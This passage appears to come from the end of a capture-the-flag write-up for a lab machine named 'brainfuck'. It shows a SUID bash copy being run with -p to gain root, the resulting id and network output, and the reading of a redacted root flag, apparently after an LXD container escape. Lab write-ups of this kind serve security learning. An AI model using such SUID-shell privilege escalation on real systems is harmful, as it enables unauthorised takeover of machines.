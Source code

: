 ```shell
orestis@brainfuck:~$ /tmp/root_bash -p
root_bash-4.3# whoami;hostname;id;ip a
root
brainfuck
uid=1000(orestis) gid=1000(orestis) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare),1000(orestis)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:91:d4 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.17/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:91d4/64 scope global mngtmpaddr dynamic 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:91d4/64 scope link 
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether fe:95:02:08:b7:36 brd ff:ff:ff:ff:ff:ff
    inet6 fe80::b4fc:9ff:fe7c:d101/64 scope link 
       valid_lft forever preferred_lft forever
    inet6 fe80::1/64 scope link 
       valid_lft forever preferred_lft forever
5: veth98R2N3@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master lxdbr0 state UP group default qlen 1000
    link/ether fe:95:02:08:b7:36 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::fc95:2ff:fe08:b736/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

Now I'm have effective UID as the root user outside of the container!

## Rooted

**root.txt:**
```shell
root_bash-4.3# cat /root/root.txt 
{Redacted}
```
